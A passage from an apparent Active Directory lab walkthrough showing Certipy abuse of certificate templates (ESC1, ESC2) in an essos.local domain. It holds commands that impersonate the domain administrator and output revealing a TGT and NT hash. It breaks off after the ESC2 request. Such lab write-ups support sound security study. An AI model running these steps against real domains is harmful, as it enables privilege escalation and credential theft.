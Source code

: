 From the enumeration I got the CA Name which will be used here to impersonate an account that I want to.

``certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local``

Here i queried the certificate by using the ca server `braavos.essos.local` as the target, `ESC1` as the template and CA Name as `-ca`, and in the end `administrator` is the account that I want to impersonate.

This saves us the certificate:

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Now let's try to authenticate via this certificate which will also grant us a ticket, which we can use afterwards:

`certipy auth -pfx administrator.pfx -dc-ip 10.4.10.12`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

## 6.3 ESC 2 & 3 Exploitation

```text
ESC2 is when a certificate template can be used for any purpose. So, it can be used for the same technique as with ESC3 for most certificate templates.
```

Query the certificate:

`certipy req -u khal.drogo@essos.local -p 'horse' -target 10.4.10.23 -template ESC2 -ca ESSOS-CA`

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'khal.drogo@essos.local'
[*] Certificate object SID is 'S-1-5-21-1626587276-1544673639-3547638884-1114'
[*] Saved certificate and private key to 'khal.drogo.pfx'
```

